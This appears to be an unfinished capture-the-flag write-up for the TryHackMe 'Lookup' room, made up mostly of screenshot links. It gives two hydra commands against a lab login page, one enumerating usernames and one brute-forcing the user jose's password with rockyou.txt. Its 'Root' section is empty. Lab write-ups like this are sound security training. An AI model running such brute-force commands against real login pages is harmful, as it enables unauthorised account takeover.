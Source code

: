 ![image](https://github.com/user-attachments/assets/d267a808-be76-4ef7-85e3-dd5a371e8f83)## THM_Lookup
https://tryhackme.com/room/lookup

### User
![image](https://github.com/user-attachments/assets/a1fe0497-1056-4a48-a64b-b8931de06d7e)

![image](https://github.com/user-attachments/assets/35eb0aaf-cb55-4799-92c2-842225e1f1ac)

![image](https://github.com/user-attachments/assets/24e466d7-4de6-48a4-964c-c04c67e645c2)

According to error msg I am sure "admin" is enable.And I tried to hydra for getting admin password, but there is no credential.
So I seek for other users.
```
hydra lookup.thm -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=username" -p a
```
![image](https://github.com/user-attachments/assets/058c5430-6fe8-494a-9db9-f445c9ce0074)

```
hydra lookup.thm -l jose -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"  
```
![image](https://github.com/user-attachments/assets/1642b93d-af9b-404e-997b-b2dd62718d5d)


![image](https://github.com/user-attachments/assets/95808164-ee3d-4351-bff5-521f01d460d9)
<P>
Added /etc/hosts "files.lookup.thm"

![image](https://github.com/user-attachments/assets/0f553640-3c57-4771-8cb5-bcac492d59d4)

![image](https://github.com/user-attachments/assets/843f4bc1-59bd-49f2-9794-50cf5f6f7fac)


### Root
